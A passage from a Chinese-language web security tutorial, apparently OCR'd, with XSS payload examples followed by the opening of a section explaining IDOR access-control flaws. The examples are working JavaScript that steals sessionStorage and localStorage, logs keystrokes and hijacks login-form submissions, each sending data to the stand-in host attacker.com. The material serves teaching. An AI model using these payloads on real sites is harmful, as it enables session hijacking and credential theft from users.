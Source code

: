**會話劫持**：

```javascript
// 竊取sessionStorage
var session = JSON.stringify(sessionStorage);
fetch('http://attacker.com/steal.php', {
    method: 'POST', 
    body: 'session=' + session
});

// 竊取localStorage
var local = JSON.stringify(localStorage);
fetch('http://attacker.com/steal.php', {
    method: 'POST', 
    body: 'local=' + local
});
```

**鍵盤記錄**：

```javascript
// 鍵盤記錄器
document.addEventListener('keypress', function(e) {
    var key = String.fromCharCode(e.which);
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/keylog.php');
    xhr.send('key=' + key);
});
```

**表單劫持**：

```javascript
// 劫持登入表單
document.forms[^0].addEventListener('submit', function(e) {
    var formData = new FormData(document.forms[^0]);
    var data = '';
    for (var pair of formData.entries()) {
        data += pair[^0] + '=' + pair[^1] + '&';
    }
    
    fetch('http://attacker.com/steal.php', {
        method: 'POST',
        body: data
    });
});
```


### 5.3 不安全直接物件參考（IDOR）深入分析

IDOR是存取控制漏洞的一種，允許攻擊者存取未經授權的物件。

**5.3.1 IDOR基本概念**：

**漏洞原理**：
應用程式使用使用者提供的輸入來直接存取物件，但沒有適當的存取控制檢查。
